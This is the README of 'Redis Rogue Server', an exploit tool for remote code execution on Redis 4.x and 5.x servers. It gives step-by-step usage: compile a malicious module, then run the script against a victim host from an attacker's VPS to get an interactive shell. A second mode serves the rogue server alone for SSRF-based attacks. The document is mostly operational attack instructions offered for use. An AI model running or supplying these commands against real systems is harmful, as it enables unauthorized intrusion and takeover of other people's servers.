 ##
#
[https://github.com/Dliv3/redis-rogue-server/tree/master](https://github.com/Dliv3/redis-rogue-server/blob/master/README_EN.md)
#
##

# Redis Rogue Server

A exploit for Redis 4.x/Redis 5.x RCE, inspired by [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

Also works for Redis 5.0.8.

## Usage:

Compile .so from <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand>.

Copy the .so file to same folder with `redis-rogue-server.py`.

### Attack scenario 1 - redis unauthorized access/redis password known by attackers

Run the rogue server, which will connect to the victim redis server to launch an attack

```
python3 redis-rogue-server.py --rhost <target address> --rport <target port> --lhost <vps address> --lport <vps port>
```

Usage:

- `--rpasswd` if the victim redis service has authentication enabled, you can specify the password through this option
- `--rhost` IP of the victim redis service
- `--rport` port number of the victim redis service , default is 6379
- `--lhost` external IP address of your VPS
- `--lport` the port number of the rogue server, default is 21000

Run this command, and you will get an interactive shell!

### Attack scenario 2 - using SSRF to attack redis

You can use `--server-only` for SSRF cases.

```bash
python3 redis-rogue-server.py --server-only
```

Usage:

- `--server-only` only start the redis rogue server, do not actively connect to the victim redis server

